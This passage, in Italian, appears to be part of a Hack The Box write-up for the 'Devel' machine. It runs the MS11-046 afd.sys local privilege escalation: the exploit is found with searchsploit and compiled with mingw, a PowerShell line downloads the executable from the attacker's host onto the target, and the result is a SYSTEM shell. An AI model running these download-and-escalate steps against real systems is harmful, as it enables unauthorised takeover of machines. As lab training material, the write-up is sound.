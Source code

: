 ```cmd
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 3
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::58c0:f1cf:abc6:bb9e
                                 [03]: dead:beef::69bc:5246:1d00:5ab2
                                 [04]: dead:beef::58c0:f1cf:abc6:bb9e

```

vediamo che il target monta Windows 7 6.1.7600 e non sono stati fatti dei fix
Cercado su google troviamo l'exploit MS11-046 che sembra fare al caso nostro 
https://www.exploit-db.com/exploits/40564

Ci scarichiamo da searchsploit 

```bash
┌──(root㉿kali)-[/home/kali/htb/devel]
└─# searchsploit -m 40564
  Exploit: Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
    Codes: CVE-2011-1249, MS11-046
 Verified: True
File Type: C source, ASCII text
Copied to: /home/kali/htb/devel/40564.c
```

Compiliamo come da istruzioni

```bash
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```

da macchina remota scarichiamo l'exploit

```cmd
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.27:9001/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Eseguiamo il .exe

```cmd
c:\Users\Public\Downloads>40564.exe
40564.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```
